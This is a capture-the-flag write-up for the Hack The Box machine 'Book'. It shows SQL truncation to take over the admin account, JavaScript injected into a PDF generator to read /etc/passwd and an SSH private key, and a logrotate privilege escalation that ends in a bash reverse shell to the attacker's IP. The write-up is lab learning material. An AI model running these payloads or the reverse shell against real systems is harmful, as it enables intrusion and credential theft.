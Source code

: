 # Book

This is the write-up for the box Book that got retired at the 11th July 2020.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.176    book.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/book.nmap 10.10.10.176
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The homepage is on _index.php_ and is a login form to some application:

![Login form](book_web-1.png)

By clicking on _Sign Up_ and using any information, it is possible to _Sign In_ and get forwarded to _home.php_.

![Library homepage](book_web-2.png)

On this page is a menu with the following pages:
- _books.php_
- _search.php_
- _feedback.php_
- _collections.php_
- _contact.php_
- _profile.php_
- _settings.php_

The images on _books.php_ forward to _download.php_ and _contact.php_ shows a potential username called _admin@book.htb_.
There is also a page on _/admin_ that has a different login page:

![Admin Sign In](book_web-3.png)

After trying out different Web vulnerabilities like **SQL Injection** and **XSS**, none of the input fields of the pages resolve in errors.
This means the _Sign In / Sign Up_ page should be focused and the _admin_ user could be taken over somehow.

In the HTML source code of _index.php_ on the login form there is some JavaScript that says that the username should not be more than 20 characters:
```
(...)
alert("Please fill name field. Should not be more than 10 characters");
return false;

if (y == "") {
alert("Please fill email field. Should not be more than 20 characters");
return false;
(...)
```

The username can be duplicates, but the email address has to be unique on the login form.
The username _admin@book.htb_ has 14 characters, so by adding 6 blank characters and 1 random letter at the end, it may truncate the 21st letter and ignore all the whitespaces.
This method is called **SQL Truncation** and could result in successful login with the admin user.

Creating username _admin@book.htb      1_:
```
POST /index.php HTTP/1.1
Host: 10.10.10.176
(...)

name=test1&email=admin%40book.htb      1&password=Test123
```

Now the login with _admin@book.htb_ and the given password works, as the whitespaces get truncated.
The login also works on the _/admin_ page:

![Library Admin Panel](book_web-4.png)

### Exploiting Admin Panel

In the _Collections_ menu are two PDFs that can be downloaded.
One shows the existing users and the other one the collections on the web application.

I changed the username of the initially created user to _"<b>test<b>"_ to see if it processes HTML syntax.
It does not process it on the web page, but the PDF creation tool does and shows the username in bold letters:

![Users PDF export](book_web-5.png)

As the usernames have a character limit, we can create a malicious _Collection_ to inject **JavaScript** code into the PDF creation tool.

Creating a new _Collection_ with JavaScript in the book title:
```
Book Title: <script> x=new XMLHttpRequest; x.onload=function(){document.write(this.responseText)}; x.open("GET","file:///etc/passwd");x.send(); </script>
```

![Creating new Collection](book_web-6.png)

After exporting the Collection PDF with the _admin_, the contents of the PDF are all users from _/etc/passwd_, which proofs that reading local files is possible:
```
root:x:0:0:root:/root:/bin/bash
(...)
reader:x:1000:1000:reader:/home/reader:/bin/bash
```

The only user with a shell set is _reader_, so lets try to guess the name of the SSH key and display the contents:
```
<script> x=new XMLHttpRequest; x.onload=function(){document.write(this.responseText)}; x.open("GET","file:///home/reader/.ssh/id_rsa");x.send(); </script>
```

Now we got the SSH key of _reader_ and as it is incorrectly formatted, the **pdftohtml** tool is able to format it correctly:
```
pdftohtml 5889.pdf
```

The string has to be copied into a new file and can be formatted with **Vim** or any other text editor:
```
vim reader_id.rsa

:%s/<br\/>/\r/g
```
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
(...)
-----END RSA PRIVATE KEY-----
```
```
chmod 600 reader_id.rsa
```

Now the SSH key is usable to login to the box as _reader_:
```
ssh -i reader_id.rsa reader@10.10.10.176
```

## Privilege Escalation

In the home directory of _reader_ in _/home/reader_ is a writable log file in _backups/access.log.1_ with the following content:
```
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
```

There is also a bash script called _lse.sh_ which is the [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration) tool.
The file _/var/www/html/db.php_ contains credentials for the **MySQL** database, that could be useful:
```
$conn = mysqli_connect("localhost","book_admin","I_Hate_Book_Reading","book");
(...)
```

After running **LinPeas** to enumerate the box more, it shows that **logrotate** runs on it and the _backups/access.log.1_ is a writable log to exploit a [Logrotate Vulnerability](https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation).

This vulnerability works only when a user logs in, but the `last` command shows, that root is constantly login in.
We can use the [logrotten exploit on GitHub](https://github.com/whotwagner/logrotten), that has to be uploaded to the box and then compiled there:
```
gcc logrotten.c -o logrotten

./logrotten
```

Creating the reverse shell payload bash script _(shell.sh_):
```
bash -i >& /dev/tcp/10.10.14.7/9001 0>&1
```

Forcing _access.log_ to rotate and executing **logrotten** with the reverse shell payload:
```
cp /home/reader/backups/access.log.1 /home/reader/backups/access.log; ./logrotten -p shell.sh /home/reader/backups/access.log
```

After the next root login, the listener on my IP and port 9001 starts a shell session as root!
